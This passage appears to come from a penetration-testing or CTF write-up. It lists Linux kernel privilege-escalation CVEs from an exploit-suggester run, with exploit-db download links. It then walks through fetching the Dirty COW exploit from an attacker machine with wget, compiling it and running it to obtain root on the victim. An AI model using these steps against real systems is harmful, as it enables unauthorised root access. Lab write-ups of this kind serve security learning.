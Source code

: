 ```                                                                                                                          

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: less probable
   Tags: ubuntu=(14.04|16.04){kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
```


The second dirty cow works just fine: [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

Serve it from your attacker machine. And from victim's:

```bash
wget http://<atacker machine>/40839.c


# Compile with:
gcc -pthread 40839.c -o dirty -lcrypt

# Then run the newly create binary by either doing:
./dirty
# or
./dirty <my-new-password>
```


Now, sudo su to the given user from the script. And you will be that user (substituting root).


